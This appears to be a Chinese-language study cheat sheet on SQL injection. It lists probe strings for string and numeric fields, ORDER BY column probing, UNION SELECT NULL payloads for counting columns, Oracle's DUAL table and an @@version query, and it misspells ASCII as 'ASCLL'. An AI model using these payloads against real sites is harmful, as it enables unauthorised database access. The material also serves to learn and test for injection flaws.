 # SQLinjection

## 查明SQL注入漏洞

### 1. 注入字符串数据

1. `'`
2. `''`
3. [良性输入]

`'||'FOO`

> oracle

`'+'FOO`

> ms-sql

`' 'FOO`

> mysql

### 2. 注入数字数据

1. 原始值为2 可尝试`1+1`或`3-1`
2. `67-ASCLL('A')` 结果为2
3. `52-ASCLL(1)` 结果为2(没有单引号)

### 3. [注入查询结构]

1. 记下任何可能控制应用程序返回的结果的顺序或其中的字段类型参数
2. 提供一系列在参数值中提交数字值得请求 从数字1开始 然后逐个请求递增。如果更改输入中的数字会影响结果的顺序 则说明输入可能被插到ORDER BY子句中。如果提交的数字大于结果集中的列数 查询将会失败。如果提交数字1生成一组结果 其中一个列的每一行都包含一个1 则说明输入可能被插入到查询返回的列的名称中。

## union

1. null  
`' union select null--`  
`' union select null, null--`  
`' union select null, null, null--`
2. 替换字符串  
`' union select 'a', null, null--`  
`' union select null, 'a', null--`  
`' union select null, null, 'a'--`

> oracle中每个`select`语句必须包含一个`FROM`属性 因此 无论列数是否正确 注入`union select null`讲产生一个错误 可以选择使用全局可访问表(globally accessible table)DUAL来满足这一要求 例如：`' union select null from dual--`

查版本:

`' union select @@version, null, null--`

> ms-sql mysql
